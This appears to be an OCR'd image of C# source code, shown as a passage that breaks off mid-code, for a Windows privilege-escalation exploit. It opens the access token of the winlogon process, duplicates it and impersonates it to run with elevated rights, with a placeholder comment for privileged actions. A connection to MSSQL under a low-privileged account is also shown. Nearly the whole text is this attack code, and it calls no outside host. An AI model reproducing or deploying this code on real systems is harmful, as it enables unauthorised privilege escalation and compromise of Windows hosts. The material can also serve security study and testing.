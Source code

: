 ```csharp
        const uint TOKEN_DUPLICATE = 0x0002;
        const uint TOKEN_ASSIGN_PRIMARY = 0x0001;
        const uint TOKEN_IMPERSONATE = 0x0004;
        const int SecurityImpersonation = 2;

        static void Main(string[] args)
        {
            // Connection string to MSSQL with low-privileged account
            string connectionString = "Server=myServerAddress;Database=myDataBase;User Id=myUsername;Password=myPassword;";
            using (SqlConnection connection = new SqlConnection(connectionString))
            {
                try
                {
                    connection.Open();
                    Console.WriteLine("Connected to MSSQL Server.");

                    // Fetch processes (targeting an elevated process like 'winlogon.exe')
                    Process[] processes = Process.GetProcessesByName("winlogon");
                    if (processes.Length > 0)
                    {
                        IntPtr tokenHandle = IntPtr.Zero;
                        IntPtr duplicateTokenHandle = IntPtr.Zero;

                        // Open process token
                        if (OpenProcessToken(processes[0].Handle, TOKEN_DUPLICATE | TOKEN_IMPERSONATE, out tokenHandle))
                        {
                            Console.WriteLine("Process token opened.");

                            // Duplicate the token
                            if (DuplicateToken(tokenHandle, SecurityImpersonation, out duplicateTokenHandle))
                            {
                                Console.WriteLine("Token duplicated.");

                                // Impersonate the token
                                if (ImpersonateLoggedOnUser(duplicateTokenHandle))
                                {
                                    Console.WriteLine("Token impersonation successful.");
                                    // Now running with elevated privileges
                                    // Execute privileged actions here...
                                }
                                else
                                {
                                    Console.WriteLine("Token impersonation failed.");
                                }

                                CloseHandle(duplicateTokenHandle);
                            }
                            else
                            {
                                Console.WriteLine("Token duplication failed.");
                            }

                            CloseHandle(tokenHandle);
                        }
                        else
                        {
                            Console.WriteLine("OpenProcessToken failed.");
                        }
                    }
                    else
```